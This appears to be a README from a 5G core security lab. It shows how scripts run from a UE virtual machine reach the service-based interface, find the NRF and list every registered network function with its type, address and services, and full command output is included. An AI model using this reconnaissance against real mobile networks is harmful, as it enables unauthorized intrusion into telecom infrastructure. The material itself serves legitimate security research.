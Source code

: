 # The service based interface as an attack vector

## Finding functions of IP addresses 

After a succesfull NMAP scan you probably have a range of ip addresses that you suspect to be a NFs. You can use the SBI to find out which is a NRF and from there what the other NFs are.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./find_nrf.sh -n <list of suspected nrfs> -i <interface>
```

## Checking NFs

If you ask the nrf it will respond with all the registered nfs.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./nr-binder 10.45.0.29 nghttp http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances
{
	"_links":	{
		"items":	[{
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4424e10c-b91f-41ed-b63c-6de5d08235f5"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/(null)"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43d16e14-b91f-41ed-b49c-f98481dc4b43"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/44cae8fe-b91f-41ed-b183-37f999dfcad0"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/443fb23e-b91f-41ed-a76b-27c3b6dd6eb0"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4480ec36-b91f-41ed-bbb3-f312db251f3b"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/445bb7a4-b91f-41ed-807f-159b80cdce04"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43ccaa6e-b91f-41ed-9c82-59e9ae72412b"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/44b4ba20-b91f-41ed-bcf2-15223ef57432"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4495ab30-b91f-41ed-937f-9fe1903c6cb7"
			}],
		"self":	{
			"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances"
		}
	}
}

```

Now we can check every indvidual uri and find out more about the NFs, here we choose a single href and see what we get.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$  ./nr-binder 10.45.0.29 nghttp http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43ccaa6e-b91f-41ed-9c82-59e9ae72412b
{
	"nfInstanceId":	"43ccaa6e-b91f-41ed-9c82-59e9ae72412b",
	"nfType":	"AMF",
	"nfStatus":	"REGISTERED",
	"heartBeatTimer":	10,
	"ipv4Addresses":	["10.0.3.1"],
	"allowedNfTypes":	["SMF", "SCP"],
	"priority":	0,
	"capacity":	100,
	"load":	0,
	"nfServiceList":	{
		"43ccd6d8-b91f-41ed-9c82-59e9ae72412b":	{
			"serviceInstanceId":	"43ccd6d8-b91f-41ed-9c82-59e9ae72412b",
			"serviceName":	"namf-comm",
			"versions":	[{
					"apiVersionInUri":	"v1",
					"apiFullVersion":	"1.0.0"
				}],
			"scheme":	"http",
			"nfServiceStatus":	"REGISTERED",
			"ipEndPoints":	[{
					"ipv4Address":	"10.0.3.1",
					"port":	7777
				}],
			"allowedNfTypes":	["SMF"],
			"priority":	0,
			"capacity":	100,
			"load":	0
		}
	},
	"nfProfileChangesSupportInd":	true
}
```

The script ```find_nfs.sh``` does the top two actions together, requests the nrf for all registered nfs and then asks for more information on each.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./check_nr.sh -n <nrf_ip> -i <interface>
```

Now we have the addresses functions and various other information of all NFs connected to the nrf.
